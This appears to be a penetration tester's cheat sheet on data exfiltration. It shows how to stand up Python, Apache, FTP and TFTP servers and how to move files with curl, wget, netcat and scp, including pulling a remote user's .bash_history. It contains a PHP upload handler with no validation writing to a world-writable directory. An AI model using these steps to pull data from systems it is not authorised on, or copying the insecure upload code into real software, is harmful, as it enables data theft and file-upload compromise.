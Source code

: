 # Data exfiltration

* Rule of thumb: Use native tool first
* Pyhton3 Web Server
* Apache Web Server
* Pure FTPd
* aTFTPd

## Run and download from a Python3 Web Server

* serve current working directory
* retrieve data with different clients

```bash
python3 -m http.server 8080
wget http://serverip:8080/filename -O output
curl http://serverip:8080/filename -o output
```

## Install and configure Apache Web server

* Apache2 is insalled on kali
* config file /etc/apache2/apache2.conf
* default www root /var/www/html/

```bash
sudo apt update && sudo apt install apache2

cat /etc/apache2/apache2.conf
sudo systemctl start apache2

cp file /var/www/html/
ls -al /var/www/html/
```

Prepare HTML file upload form using PHP

* cp html and php file /var/www/html/
* make upload directory /var/www/html/upload/
* finally restart the apache2 web server to serve the upload
* increase the file upload size /etc/php/<version>/apache2/php.ini 

```bash
cat <<EOF > /var/www/html/upload.html
<html>
<head></head>
<body>
<h4> File uploads </h4>
<form enctype="multipart/form-data" action="upload.php" method="post">
<p>
Select File:
<input type="file" name="uploadedfile" />
<input type="submit" name="Upload" value="Upload" />
</p>
</form>
</body>
</html>
EOF
```

```bash
cat <<EOF >/var/www/html/upload.php
<?php 
$target_path = "uploads/"; 
$target_path = $target_path . basename( $_FILES['uploadedfile']['name']); 

echo "Source=" . $_FILES['uploadedfile']['name'] . "<br />"; 
echo "Target path=" . $target_path . "<br />"; 
echo "Size=" . $_FILES['uploadedfile']['size'] . "<br />"; 

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
echo "The file " . basename( $_FILES['uploadedfile']['name']) . " has been uploaded"; 
} else { 
echo "There was an error uploading the file, please try again!"; 
} 
?>
EOF
```

```bash
mkdir /var/www/html/uploads/
chmod 777 
```

Execute HTML file upload using curl or wget

```bash
curl --form "uploadedfile=@/path/to/file" http://server-ip/upload.php
```

```bash
wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" \
--post-file postfile http://server-ip/upload.php

cat <<EOF > postfile
--FILEUPLOAD
Content-Disposition: form-data; name="comment"

I love uploading files!

--FILEUPLOAD
Content-Disposition: form-data; name="uploadFile"; filename="myfile.bin"; 
Content-Type: application/octet-stream
Media Type: application/octet-stream

This is the file upload content. 
It's possible without B64 encoding, if the boundary is not part of file.

--FILEUPLOAD--
EOF
```

## Install and configure Pure FTP

* add virtual ftpuser to offsec login user
* create a password for offsec login user
* make /ftphome writeable for pure-ftpd

```bash
sudo apt update && sudo apt install pure-ftpd

cat <<EOF > ./setup-ftp.sh
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
EOF

chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
systemctl status pure-ftpd
```

## Install and confiugre TFTP

* create /tftp folder
* change owner of /tftp
* start deamon on udp port 69

```bash
sudo apt update && sudo apt install atftpd

cat <<EOF > setup-atftpd.sh
#!/bin/bash

sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
EOF
```

## Connect FTP

Anoymous connect

```bash
ftp host-IP
Name: anonymous
<Enter>

ftp> ls
ftp> get somefile.txt
ftp> put somefile.bin
ftp> quit

# binary file transfer
ftp> binary
# text file only transfer (use with caution)
ftp> ascii
```

## Connect to TFTP

```bash
tftp host-IP
# ls option is by default deactivated
tftp> get somefile.txt
tftp> put somefile.txt
```


## Netcat

```bash
nc -lvnp 1234 > receive.txt
nc -vn host-IP 1234 < send.txt
```

## SCP

```bash
scp user@IP:/home/user/.bash_history history.txt
```
